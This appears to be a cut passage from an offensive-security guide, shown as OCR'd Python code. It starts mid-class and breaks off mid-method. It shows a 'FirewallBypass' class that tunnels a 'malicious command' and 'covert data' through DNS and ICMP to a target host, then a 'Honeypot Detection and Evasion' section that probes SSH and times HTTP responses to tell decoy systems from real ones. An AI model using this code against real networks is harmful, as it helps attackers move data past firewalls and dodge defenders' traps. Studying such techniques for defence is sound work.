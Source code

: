 ```python
        proxy_socket.send(http_request.encode())
        response = proxy_socket.recv(1024)
        proxy_socket.close()
        
        return response
    
    def icmp_tunneling(self, data):
        """Tunnel data in ICMP packets"""
        packet = IP(dst=self.target_host)/ICMP()/data
        send(packet, verbose=0)

# Example usage
bypass = FirewallBypass("target.com", 443)
bypass.dns_tunneling("malicious command")
bypass.icmp_tunneling(b"covert data")
```

### 3. Honeypot Detection and Evasion
```python
#!/usr/bin/env python3
import requests
import socket
import time

class HoneypotDetector:
    def __init__(self, target_ip):
        self.target_ip = target_ip
        self.honeypot_indicators = []
    
    def detect_low_interaction_honeypot(self):
        """Detect low-interaction honeypots"""
        # Test for limited service responses
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(5)
            sock.connect((self.target_ip, 22))
            
            # Send invalid SSH handshake
            sock.send(b"INVALID_SSH_HANDSHAKE\n")
            response = sock.recv(1024)
            
            # Honeypots often respond generically
            if b"SSH" not in response:
                self.honeypot_indicators.append("Abnormal SSH response")
            
            sock.close()
        except:
            pass
    
    def detect_timing_anomalies(self):
        """Detect honeypots through timing analysis"""
        response_times = []
        
        for i in range(10):
            start_time = time.time()
            try:
                response = requests.get(f"http://{self.target_ip}", timeout=5)
                end_time = time.time()
                response_times.append(end_time - start_time)
            except:
                pass
        
        # Honeypots often have consistent response times
```